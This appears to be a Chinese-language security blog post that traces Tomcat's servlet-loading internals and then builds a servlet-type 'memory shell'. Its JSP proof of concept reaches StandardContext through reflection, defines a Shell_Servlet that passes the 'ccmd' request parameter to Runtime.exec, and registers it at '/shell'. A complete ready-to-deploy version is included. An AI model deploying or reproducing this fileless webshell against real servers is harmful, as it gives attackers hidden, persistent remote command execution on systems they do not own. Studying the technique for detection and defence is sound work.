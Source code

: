 ## Servlet

### 加载servlet流程

把断点下在init(),看调用栈

![image-20240629210821179](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629210821179.png)

**StandardWrapper#loadServlet**

![image-20240629211404151](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629211404151.png)

调用inintServlet，传入servlet参数，同样在该函数中

![image-20240629211451083](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629211451083.png)

**StandardContext#loadOnStartup**

![image-20240629211847746](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629211847746.png)

![image-20240629211923566](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629211923566.png)

wrapper来自于child对象的转换，children来自于ContainerBase#findChildren

![image-20240629212020447](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629212020447.png)

![image-20240629212102657](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629212102657.png)

最后传入的Children参数是Standardwrapper对象

![image-20240629212312908](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240629212312908.png)

可以看到最后一个对象就是我们的servlet,因此主要修改这里

最后会调用到addChild()

**创建StandardWrapper**

来看下这里的standardWrapper对象是如何创建的

跟到ContextConfig#webConfig()

![image-20240630212100105](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240630212100105.png)

解析web.xml各种参数

调用ContextConfig#configureContext来创建wrapper

![image-20240630212215863](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240630212215863.png)

![image-20240630212357937](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240630212357937.png)

创建的servlet参数存在servletMappings参数中

至此我们基本思路可以确定

获取StandardContext,创建一个恶意wrapper对象并加载该对象，将url对应的参数添加进servletMappings

### POC编写

首先获取StandardContxt对象

```jsp
<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>
```

创建恶意的Servlet

```jsp
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("ccmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
```

准备wrapper对象，设置对应的参数并添加进当前context上下文

```jsp
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName(name);
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());

    //将wrapper对象添加进StandardContext
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

**完整poc**

```jsp
<%--
  Created by IntelliJ IDEA.
  User: Administrator
  Date: 2024/6/30
  Time: 21:31
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%
    //获取ApplicationContextFaced类
    ServletContext servletContext = request.getSession().getServletContext();
    //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
    Field appContext = servletContext.getClass().getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    //获取StandardContext
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
%>
<%!

    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("ccmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }

%>
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName(name);
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());

    //将wrapper对象添加进StandardContext
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

效果如图

![image-20240630215445484](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240630215445484.png)

